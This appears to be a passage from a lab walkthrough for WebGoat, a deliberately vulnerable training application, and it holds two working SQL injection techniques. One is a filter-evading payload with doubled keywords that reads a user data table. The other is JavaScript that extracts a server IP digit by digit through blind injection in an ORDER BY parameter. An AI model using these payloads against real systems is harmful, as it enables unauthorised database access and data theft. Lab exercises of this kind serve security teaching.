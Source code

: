 ``` sql
a';	SSELECTELECT	*	FFROMROM	USER_SYSTEM_DATA;--
```

### Lesson 12: Getting IP address

The idea is pretty similar to finding Tom\`s password. Then we can only sort table items and that way we retrive information about server ip address.

``` js
position = 1;
Array.from({ length: 10 }, (_, k) => k).forEach(async item => {
    const response = await fetch(`http://localhost:8081/WebGoat/SqlInjectionMitigations/servers?column=(case+when+exists(select+ip+from+servers+where+hostname+=+%27webgoat-prd%27+and+substring(ip,${position},1)=%27${item}%27)+then+ip+else+id+end)`);
    json = await response.json();
    console.log(`${item}`, json);   
});
```

The request is prepared so it sorts by `ip` if n-th number of ip equals number in request, else it sorted by `id`. Then you can extract exceptionally sorted requests and find ip number one by one.